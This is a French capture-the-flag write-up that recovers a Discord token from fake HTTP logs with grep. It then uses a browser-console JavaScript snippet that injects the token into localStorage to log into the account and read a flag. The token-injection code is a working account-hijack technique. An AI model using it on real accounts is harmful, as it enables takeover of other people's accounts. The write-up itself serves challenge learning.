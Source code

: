 # Write up - toktok didi
### présentation
On télécharge le [zip fourni - lien obsolète](https://limewire.com/d/vtYyd#LK6n71NgMM).
Il contient `script.py`, qui dévoile comment ont été généré les faux fichiers de log.
Le répertoire log contient de nombreux fichier log de requête HTTP.
### trouver le token
L'énoncé nous demande de trouver un token discord.
Dans _log/_, On tente donc simplement la commande `grep -ri "token"` 
```bash
access_log_20241123-022610.log:36.165.234.1 - - [23/Nov/2024:03:19:55 +0200] "GET /api/v9/channels/987654321/messages?token=TOKEN&limit=50 HTTP/1.0" 200 2341 "https://discord.com/channels/123456789/987654321" "Mozilla/5.0 (Android 7.1.2; Mobile; rv:54.0) Gecko/54.0 Firefox/54.0"
```
Il n'y a donc même pas de faux token discord ou d'autres token que discord. Aucun faux positif.
il était donc très facile à trouver.
### connection au compte discord
Se connecter à un compte discord non-bot à partir de son token enfreint les CGU discord.
C'est uniquement pour un challenge et pour des raisons pédagogique qu'on le fait ici.

On va à la [page web de login discord](https://discord.com/login)
On y injecte ce code javascript à l'aide de la console de notre navigateur (pour moi, `CTRL + SHIFT + K`).
```python
setInterval(() => {
  document.body.appendChild(document.createElement`iframe`).contentWindow.localStorage.token = `"TOKEN"`;
}, 50);

setTimeout(() => {
  location.reload();
}, 100);
```
Résultat : on est connecté au compte.
On accède à la description du profil, qui contient le flag. 
